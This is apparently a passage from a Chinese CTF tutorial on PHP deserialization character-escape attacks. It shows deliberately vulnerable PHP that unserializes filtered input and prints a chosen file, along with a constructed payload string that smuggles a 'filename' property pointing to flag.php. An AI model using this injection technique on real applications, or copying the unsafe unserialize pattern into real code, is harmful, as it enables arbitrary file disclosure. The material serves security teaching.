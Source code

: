 ```php
$ser = replace(serialize($test));
$f = unserialize($ser);

echo '<br>'.$f->filename.'的内容为：'.'<br>';
highlight_file($f->filename);
?>

```

构造：

```php
<?php

//flag in flag.php
class Read{
    public $mod1='aaaaaaaaaaaaaaaabbb';
    public $mod2='";s:4:"mod2";s:4:"mod2";s:8:"filename";s:8:"flag.php";}'; // 这里自己多加一个属性 因为序列化之后对象中变量的个数是3 但是逃逸之后少了一个
    public $filename='index.php';
}
function replace($str){
    return preg_replace('/aaaa|bbb/i','', $str);
}
$read = new Read();
echo serialize($read);
echo '</br>';
echo replace(serialize($read));

?>

```

## 字符逃逸（过滤后变多）

```php
<?php
highlight_file(__file__);
error_reporting(0);
class Read{
    public $mod1='change me!';
    public $mod2='change me!';
    public $filename = 'index.php';
}
function replace($str){
    return preg_replace('/aaaaa/i','hacker',$str);
}
$test=new Read();
if(isset($_GET['x'])){
    $test->mod2=$_GET['x']; //只能控制mod2
}
$ser = replace(serialize($test));
$f = unserialize($ser);
echo '<br>'.$f->filename.'的内容为：<br>';
highlight_file($f->filename);
?>
```
